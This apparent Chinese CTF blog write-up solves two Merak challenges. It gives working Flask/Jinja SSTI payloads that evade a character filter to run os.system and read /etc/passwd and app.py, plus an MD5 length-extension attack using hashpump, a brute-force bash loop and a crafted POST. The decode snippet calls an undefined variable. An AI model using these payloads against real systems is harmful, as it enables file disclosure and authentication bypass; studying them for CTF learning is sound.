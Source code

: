 ```yaml
---
title: Merak CTF平台 Writeup
categories:
  - 平台Writeup
tags:
  - ctf
  - Writeup
index_img: /img/used/prac.jpg
date: 2020-01-14 15:25:33

---
```


# Merak CTF

## Flask_SSTI

进去只有一个框框，根据题目提示，很明显是模板注入了。

```
{{7*7}}显示49
```

说明存在模板注入。但是接下来尝试发现英文句号，下划线和单引号都被过滤了。  

这里用到一个技巧：在模板注入的过程中，以下两种语法是等价的：

```python
{{"".__class__}}
{{""["__class__"]}}
```

这两种也是等价：  

```python
{{"".method()}}
{{""["method"]()}}
```

既然可以将对象的属性用字符串的形式索引出来，我们就可以使用字符串的一些特性绕过过滤`. ' _`这些字符的规则。  

使用ord函数，在模板注入中未成功。  

```python
""[ord(95)+ord(95)+"class"+ord(95)+ord(95)]
#失败了，报出Exception
```

考虑使用转义字符序列，发现可以成功注入。接下来就是常规的操作了。调用OS模块，发现没有回显  

```python
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[80]["load\x5Fmodule"]("os")["system"]("ls")}}
#返回了0，说明只传出返回值。
```

此时可考虑使用curl方式将数据带出。但我们可以在此之前，使用读取文件的函数，手机更多关于app的信息。因为没有出现file类，选用`_frozen_importlib_external.FileLoader'>`这个类中的`get_data()`方法，payload如下：

```python
{{""["\x5f\x5fclass\x5f\x5f"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/etc/passwd")}}
```

成功读取到密码。尝试读取更多信息，首先要知道app的位置。使用Jinja自带的config变量查看信息，也就是：

```python
{{config}}
```

查看到如下信息。   

```
<Config {'ENV': 'production', 'DEBUG': False, ... 'APPLICATION_ROOT': '/', ... ,'MAX_COOKIE_SIZE': 4093, 'flag': 'Kn4u>H\x7fd;)F\x12\x1c$;nW\x01\x02elSH;#xwx%%\x1f\\I#X yaR \x1fI\x05'}> ~♡ⓛⓞⓥⓔ♡~
```

注意到了Application_Root和flag两个字段。flag是乱码，而应用目录显示了应用的位置，是根目录。根据flask程序的文件结构，我们知道存在一个app.py作为主程序。尝试读取这个程序：  

```python
{{""["\x5f\x5fclass\x5f\x5f"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "app\x2Epy")}}
```

成功读取，内容如下：

```python
import random
from flask import Flask, render_template_string, render_template, request
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = 'folow @osminogka.ann on instagram =)'

def encode(line, key, key2):
 return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

file = open("/app/flag", "r")
flag = file.read()
app.config['flag'] = encode(flag, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3tU', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVTtU')
flag = ""
os.remove("/app/flag")
@app.route('/', methods=['GET', 'POST'])

#程序逻辑

 if '.' in p or '_' in p or '\'' in p:
 return 'Your nickname contains restricted characters!'

#程序逻辑

if __name__ == '__main__':
 app.run(
```

注意到这里确实过滤了三个符号。而前面的代码显示了flag字符串的加密方法，并且声称flag的文件被删除，所以我们根据加密方法编写解密代码如下：  

```python
def decode(newline,key,key2):
    return ''.join( chr(x ^ ord(newline[x])^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(newline)) )
flag_enc = 'Kn4u>\x1c~bj{\x17B@$ll\x0b\x07\x02elVK;"|t\x7f%"\x1f\x0f\x18q^%z3\x07zOI\x05'
#读取的flag加密值
flag = decode(newl, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3tU', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVTtU')
print(flag)
```

得到flag：`flag{fb74f76e-bce7-4dab-8e6d-51efde0a379b}`

## Cool Hash

一看就是哈希长度扩展攻击，但是缺少信息...

发现源码泄露：www.zip，解压缩得到index.php

这里截取关键逻辑

```php
<?php
        error_reporting(0);
        $secret = "********";
        setcookie("hash", md5($secret."adminadmin"));

if (isset($_POST['username']) && isset($_POST['password'])){
    $username = $_POST['username'];
    $password = $_POST['password'];
    $username = urldecode($username);
    $password = urldecode($password);
    if ($password === "admin"){
        die("u r not admin !!!");
    }

    if ($username == "admin" && $password != "admin"){
        echo("new md5:".md5($secret.$username.$password)."</br>");
        if ($_COOKIE['user'] === md5($secret.$username.$password)){
            echo("flag{this_is_a_test_flag}");
        }
    }
}
?>
```

目的是构造password != admin并且username == admin 并且哈希能够匹配。

secret从源码来看是8位，那么加上admin是13位，hashpump中输入命令

```bash
hashpump -s 70f36257301b60fb370e72366f3b3f40 -d admin -a emmm -k 13
17e465f6c8c2c3df191240b6d5e56a0d
admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x00emmm
```

因为有URLDECODE，把`\x`替换成`%`，提交

```
POST /index.php HTTP/1.1
Host: 4bc07b04-4991-4557-a9ea-69de5e6dd89f.ctfp.merak.codes
...
Cookie: __cfduid=d2805811070326eab4ccd32bc5f3f70ca1575169229; hash=291b202f6f337b1e91722a49f417fb01; user=b6715a3701b5d3b0d624ea8cae54d184
Upgrade-Insecure-Requests: 1

-----------------------------1534681789211822725361541205
Content-Disposition: form-data; name="username"

admin
-----------------------------1534681789211822725361541205
Content-Disposition: form-data; name="password"

admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%90%00%00%00%00%00%00%00emmm
-----------------------------1534681789211822725361541205
Content-Disposition: form-data; name="login"

æäº¤
-----------------------------1534681789211822725361541205--


```

发现并不正确。

考虑到secret的位数其实是未知的，实际上应该爆破一下。编写bash脚本如下：

```bash
#!/bin/bash
for var in 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
do
hashpump -s 70f36257301b60fb370e72366f3b3f40 -d admin -a emmm -k $var | tr "\\" "x" | tr -s "xx" | tr "x" "%" 
done
```

三次tr分别：把下划线替换为x，把x去重，把x替换为%。执行后输出payload：

```bash
bash shl.sh > out.txt
cat out.txt

17e465f6c8c2c3df191240b6d5e56a0d
admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00h%00%00%00%00%00%00%00emmm
17e465f6c8c2c3df191240b6d5e56a0d
admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00p%00%00%00%00%00%00%00emmm
17e465f6c8c2c3df191240b6d5e56a0d
admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00emmm
17e465f6c8c2c3df191240b6d5e56a0d
admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80%00%00%00%00%00%00%00emmm
17e465f6c8c2c3df191240b6d5e56a0d
...
```

发现hash值是一样的，去掉即可。把这个文件作为字典扔进BurpSuite：

![Screen Shot 2019-12-03 at 01.30.27.png](https://upload-images.jianshu.io/upload_images/19782504-ba8db383862c3155.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

得到flag：`flag{30bed9c1-a2c6-4739-aa39-018fff1491cf}`

payload是keylength = 11 时的，说明secret的位数是六位。

